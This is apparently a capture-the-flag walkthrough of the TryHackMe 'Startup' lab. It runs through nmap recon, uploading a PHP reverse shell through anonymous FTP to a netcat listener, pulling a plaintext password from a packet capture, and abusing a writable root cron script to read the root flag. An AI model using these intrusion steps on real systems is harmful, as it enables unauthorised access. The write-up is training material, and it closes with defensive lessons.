




# Startup

[Startup](https://tryhackme.com/room/startup) is an easy difficulty room created by
[elbee](https://tryhackme.com/p/elbee).

---

## Recon

Let's start by throwing our IP address into an environment variable:

```
$ export IP=10.10.33.231
```

Now, run nmap to discover open ports and services

```
$ nmap -sC -sV -oN nmap_initial.txt $IP
 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.2.8.243
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We see three open ports:
- **Port 21:** FTP with anonymous login enabled and a few readable files
- **Port 22:** SSH for remote access
- **Port 80:** HTTP Apache web server - so there is a website we can enumerate

I always like to explore web servers first, so let's check out the website:



Not much. Maybe `gobuster` can find something?

```
$ gobuster -u http://$IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster.txt

/files
```

Cool! A hidden /files folder:



These are the same files we say earlier in the `nmap` scan!

Contents of notice.txt:



Perhaps Maya is a valid username we can use in a brute-force password attack?
We'll make a mental note of that an move on.

The important.jpg is just an Among Us meme.
 
---

## Gaining Access with a Reverse Shell

So far we have discovered two critical things:

1. There's an FTP server with anonymous login
2. We can access files through the HTTP web server 

We can use this knowledge to upload and execute a reverse shell to gain remote
access to the system!

### Step 1 - Generate a Payload

This is an Apache web server, and since Apache typically runs PHP code, I will
be using a PHP payload. 

I like the one from [PenTestMonkey](pentestmonkey@pentestmonkey.net) (available
in /usr/share/webshells/php-reverse-shell.php on Kali Linux), but you can choose anything.

Be sure to change the default IP address and port.

### Step 2 - Upload Payload

Log into FTP as the anonymous user, navigate to the /ftp folder, and upload the
newly created payload:

```
$ ftp 10.10.33.231                  
Connected to 10.10.33.231.
220 (vsFTPd 3.0.3)
Name (10.10.33.231:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put revshell.php 
local: revshell.php remote: revshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (34.9172 MB/s)
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5492 May 31 02:03 revshell.php
226 Directory send OK.
```

Note: I named my shell revshell.php.

### Step 3 - Start Reverse Shell Listener

In another terminal window, start a netcat listener:

```
$ nc -nlvp 4444
```

### Step 4 - Execute Payload

Navigate back to the /files/ftp folder on the web server and notice our uploaded
revshell!



Click on it to execute and start the reverse shell.

```
$ nc -nlvp 4444   
listening on [any] 4444 ...
connect to [10.2.8.243] from (UNKNOWN) [10.10.33.231] 44684
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020
x86_64 x86_64 x86_64 GNU/Linux
 02:09:18 up 49 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

---

## Privilege Escalation

We've got a (crummy) shell! Time to [upgrade
it](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/).

We are the www-data user, which has limited permissions. We need to find a way
to escalate to a higher privileged user.

After some looking around, I found the /incidents/suspicious.pcapng file. This
is a snapshot of a packet capture - data in transmission.

I examined the file with `tcpdump` and found the following line:

```
tcpdump -nqtAr suspicious.pcapng

...truncated output...
P 192.168.22.139.40934 > 192.168.22.139.4444: tcp 30
E..R%.@.@.g7...........\/5.^.......@.......
*.@     *.?.[sudo] password for www-data: 
IP 192.168.22.139.4444 > 192.168.22.139.40934: tcp 0
E..4.~@.@............\....../5.|...@.......
*.@     *.@
IP 192.168.22.139.4444 > 192.168.22.139.40934: tcp 19
E..G..@.@............\....../5.|...@.......
*.J.*.@ c4ntg3t3n0ughsp1c3
...
```

Someone tried to login to www-data with the password "c4ntg3t3n0ughsp1c3". Later
on in the dump is an error message showing that this password is incorrect for
this user.

Perhaps we can try it on a user who has a home folder?

```
$ ls /home
lennie
```

Trying the password out on lennie works like a charm:

```
$ su lennie
Password:
lennie@startup:~$ 
```

Time to check out their home folder:

```
lennie@startup:~$ ls
Documents  scripts  user.txt
```

Print out the user.txt flag. The Documents folder has some funny content, but
nothing useful for completing the room. 

The more interesting item is the scripts folder. In it, are two files:

```
lennie@startup:~/scripts$ ls -l
total 8
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 May 31 02:32 startup_list.txt
```

Both files are owned by root. What's in the planner.sh shell script?

```
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

It looks like this is a cronjob that root executes. What is the /etc/print.sh?

```
lennie@startup:~/scripts$ ls -l /etc/print.sh 
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Oooo, we have write access! Add the following line to the end of print.sh:

```
cat /root/root.txt > /home/lennie/scripts/startup_list.txt
```

On the next minute, the root.txt flag will be in the startup_list.txt file!

---

## Lessons Learned

1. Disable anonymous FTP login! We were able to upload and execute a reverse
shell payload to gain access to the system
2. Use encrypted protocols like FTPS or HTTPS! We found the cleartext password in the pcapng file.
